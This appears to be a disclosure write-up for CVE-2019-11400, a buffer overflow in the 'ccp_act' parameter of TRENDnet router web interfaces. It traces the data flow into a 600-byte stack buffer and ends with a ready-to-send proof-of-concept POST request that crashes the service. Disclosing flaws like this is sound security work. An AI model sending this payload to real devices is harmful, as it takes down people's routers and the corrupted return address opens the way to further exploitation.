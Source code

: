 # TRENDNet

**Exploit Author**: pr0v3rbs@kaist.ac.kr

**Vender**: TRENDNet

## CVE-2019-11400

**Firmware version**:
TEW-651BR 2.04B1, TEW-652BRP 3.04b01, and TEW-652BRU 1.00b12

### The detail of vulnerability ###

When processing any type of 'get_set.ccp' POST request through web
service.

The 'ccp_act' parameter can trigger buffer overflow vulnerability. Once
trigger the buffer overflow, then the web server crashed and the web
service is downed.

The crafted sent data is converted with GET method style string, and it
transferred from mini_httpd web server to the ncc binary through the
socket communication.

The 'handle_nccinf_R1' function of ncc binary receive the data, and it
calls the 'data_2_entries' function of the libsw3box.so library with
the string. As like
```
"get_set.ccp?ccp_act=aaa...aaa&
ccpSubEvent=CCP_SUB_DDNS&
nextPage=ddns.htm&
ddnsCfg_DDNSEnable_1.1.0.0.0=1&
ddnsCfg_DDNSServer_1.1.0.0.0=DynDns.org&
ddnsCfg_HostName_1.1.0.0.0=&
ddnsCfg_Username_1.1.0.0.0=&
ddnsCfg_Password_1.1.0.0.0=WDB8WvbXdHtZyM8Ms2RENgHlacJghQyGWDB8WvbXdHtZyM8Ms2RENgHlacJghQyG&
ddnsCfg_Timeout_1.1.0.0.0=&
ip_addr=192.168.10.2"
```
And then, the 'data_2_entries' function parses the value of the
'ccp_act' parameter to the local buffer which has 600 sizes. At this
point, with the large buffer that overcomes 652 sizes, the local buffer
overflowed and, return address is corrupted.

### PoC POST message

```
POST /get_set.ccp HTTP/1.1

ccp_act=aaaaaaaaaaaaaaa...aaaaaaaaaa&
ccpSubEvent=CCP_SUB_DDNS&
nextPage=ddns.htm&
ddnsCfg_DDNSEnable_1.1.0.0.0=1&
ddnsCfg_DDNSServer_1.1.0.0.0=DynDns.org&
ddnsCfg_HostName_1.1.0.0.0=&
ddnsCfg_Username_1.1.0.0.0=&
ddnsCfg_Password_1.1.0.0.0=WDB8WvbXdHtZyM8Ms2RENgHlacJghQyGWDB8WvbXdHtZyM8Ms2RENgHlacJghQyG&
ddnsCfg_Timeout_1.1.0.0.0=
```